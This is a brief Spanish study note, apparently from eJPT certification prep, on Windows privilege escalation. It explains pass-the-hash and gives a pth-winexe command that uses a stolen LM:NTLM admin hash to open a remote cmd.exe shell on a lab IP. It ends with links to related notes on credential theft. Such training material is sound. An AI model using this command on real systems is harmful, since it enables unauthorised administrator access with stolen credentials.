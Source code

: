 - ¿Por qué descifrar un hash de contraseña cuando puede autenticarse usando el hash?

- Utilice el hash de administración completo con pth-winexe para generar un shell que se ejecuta como administrador sin necesidad de descifrar su contraseña. Recuerde que el hash completo incluye tanto el LM como el NTLM hash, separado por un colon:

```
pth-winexe -U 'admin%hash' //10.10.94.6 cmd.exe`
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Passwords - Registry]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Passwords - Saved Creds]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Passwords - Security Account Manager (SAM)]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Generate a Reverse Shell Executable]]